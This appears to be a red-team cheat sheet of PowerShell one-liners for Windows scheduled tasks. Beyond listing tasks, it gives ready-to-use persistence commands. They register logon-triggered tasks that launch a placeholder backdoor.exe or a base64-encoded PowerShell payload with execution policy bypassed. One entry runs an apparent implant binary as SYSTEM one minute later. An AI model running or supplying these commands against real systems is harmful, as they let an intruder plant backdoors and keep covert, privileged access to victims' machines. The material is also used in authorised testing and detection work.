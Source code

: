 
# pwsh
% windows, scheduled tasks

#plateform/windows #target/local #cat/RECON/SCHEDULED-TASK #tag/powershell 

## scheduled tasks - find all  
```powershell
Get-ScheduledTask | select TaskName,State
```

## scheduled tasks - detal
```powershell
Get-ScheduledTask <task_name> |Export-ScheduledTask
```

## scheduled tasks - launch binary at user logon
```powershell
$A = New-ScheduledTaskAction -Execute "cmd.exe" -Argument "/c  <binary_full_path|C:\windows\Temp\backdoor.exe>"; $T = New-ScheduledTaskTrigger -AtLogOn -User "<user|.\jubeaz>"; $P = New-ScheduledTaskPrincipal "<user|.\jubeaz>"; $S = New-ScheduledTaskSettingsSet; $D = New-ScheduledTask -Action $A -Trigger $T -Principal $P -Settings $S; Register-ScheduledTask -Force -TaskName <task_name|jubeaz> -InputObject $D
```

## scheduled tasks - launch powhershell encoded at user logon
```powershell
$A = New-ScheduledTaskAction -Execute "powershell.exe" -Argument "-ExecutionPolicy bypass -e   <b64_payload>"; $T = New-ScheduledTaskTrigger -AtLogOn -User "<user|.\jubeaz>"; $P = New-ScheduledTaskPrincipal "<user|.\jubeaz>"; $S = New-ScheduledTaskSettingsSet; $D = New-ScheduledTask -Action $A -Trigger $T -Principal $P -Settings $S; Register-ScheduledTask -Force -TaskName <task_name|jubeaz> -InputObject $D
```

## scheduled tasks - launch in 1 minute
```powershell
Unregister-ScheduledTask -TaskName "jubeaz-b_sliv" -Confirm:$false ;$A = New-ScheduledTaskAction -Execute "c:\windows\temp\b_sliv_fh.exe"; $T = New-ScheduledTaskTrigger -Once -At (Get-Date).AddMinutes(1); $P = New-ScheduledTaskPrincipal "NT AUTHORITY\SYSTEM" -RunLevel Highest;$S = New-ScheduledTaskSettingsSet;$D = New-ScheduledTask -Action $A -Trigger $T -Principal $P -Settings $S; Register-ScheduledTask "jubeaz-b_sliv" -InputObject $D
```